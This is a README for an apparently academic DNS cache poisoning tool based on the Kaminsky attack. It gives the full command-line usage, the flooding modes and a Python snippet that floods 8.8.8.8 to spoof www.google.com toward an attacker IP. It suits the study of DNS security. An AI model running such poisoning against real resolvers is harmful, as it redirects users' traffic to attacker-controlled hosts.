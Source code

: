 # DNS Poisoning Tool
A tool to perform DNS cache poisoning against vulnerable server.

![Image](docs/dnspoisoning_screen_2.png)

Both attack methodology is widely described here: [Kaminsky Attack](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html)

A detailed software documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html)

**WARNING**: This code is intended to be use only in the contex of a particular assignment. If you want to reuse some of the functionalities refer to the [modules section](#modules)

## Requirements
* Scapy (For packet crafting) `pip install scapy`
* Blessing (For coloured terminal) `pip install blessings`
* DNS Python (For initial DNS query)  `pip install dnspython`

Inline requirements installation command pip install:

```pip install scapy blessings dnspython```

Otherwise simply use the provided requirements file

```pip install -r requirements.txt```

## Usage
The file ```launch.sh``` can be edited with all the necessary paramters to carry on the attack or, instead, you could use the command line parameter directly.

```
usage: main.py [-h] -t DOMAIN -a ATTACKER_IP -v VICTIM_DNS_IP
               [-bs BAD_SERVER_IP] [-bp BAD_SERVER_PORT] -bd BAD_DOMAIN
               [-ns NS_SERVER] [-i INTERFACE] [-at {NORMAL,DAN}]
               [-m {NORMAL,FAST}] [-vm VICTIM_MAC] [-si SECRET_IP]
               [-sp SECRET_PORT] [-nc] [-vb {1,2,3,4}]

DNS Poisoning Attack Tool

optional arguments:
  -h, --help            show this help message and exit
  -t DOMAIN, --target-domain DOMAIN
                        The target domain to spoof
  -a ATTACKER_IP, --attacker-ip ATTACKER_IP
                        Attacker IP address
  -v VICTIM_DNS_IP, --victim-dns-ip VICTIM_DNS_IP
                        The victim DNS IP address
  -bs BAD_SERVER_IP, --bad-server-ip BAD_SERVER_IP
                        The Bad Guy DNS server IP
  -bp BAD_SERVER_PORT, --bad-server-port BAD_SERVER_PORT
                        The Bad Guy DNS server port
  -bd BAD_DOMAIN, --bad-domain BAD_DOMAIN
                        The domain belonging to the attacker controlled zone
  -ns NS_SERVER, --ns-server NS_SERVER
                        The victim authoritative server
  -i INTERFACE, --interface INTERFACE
                        The Network Card interface to use
  -at {NORMAL,DAN}, --attack-type {NORMAL,DAN}
                        The type of attack to perform
  -m {NORMAL,FAST}, --mode {NORMAL,FAST}
                        Mode to use
  -vm VICTIM_MAC, --victim-mac VICTIM_MAC
                        The victim MAC address
  -si SECRET_IP, --secret-ip SECRET_IP
                        IP to bind for the secret fetcher
  -sp SECRET_PORT, --secret-port SECRET_PORT
                        Port to bind for the secret fetcher
  -nc, --no-colors      Suppress coloured terminal output
  -vb {1,2,3,4}, --verbosity {1,2,3,4}
                        Verbosity level
 ```
## Features
The tool support two version of the attack that can be specified with the related parameter
* Classical poisoning ([Shenanigans Version 1](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv1))
* Dan's Shenanigans ([Dan's Version](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv2))

In addition two modes are available for flooding
* **Normal Flooding** - which uses IP layer
* **Faster Flooding** - which uses Ethernet layer

When "*faster flooding*" is used, both victim MAC Address and a network interface must be supplied.

The secret is printed both on the terminal output and in ```log_secret.txt``` file. 

### <a id="modules"></a> Modules
The code is developed in a modular way in order to be implemented in other tools. An extensive class documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html).
For example the following code starts a flood of DNS crafted response against the server at "8.8.8.8" in order to spoof the google domain and redirect users to the attacker IP (66.66.66.66):
```python 
import DNSPoisoning

poisoning = DNSPoisoning('8.8.8.8', 'www.google.com', '66.66.66.66')
poisoning.start_flooding()
```

### Bugs
When runninng in faster mode, a single CTRL+C signal is not sufficient to stop the execution due to some thread/signal handler bug. Therefore to completely stop the tool is required to hold CTRL+C for few seconds until the terminate the application.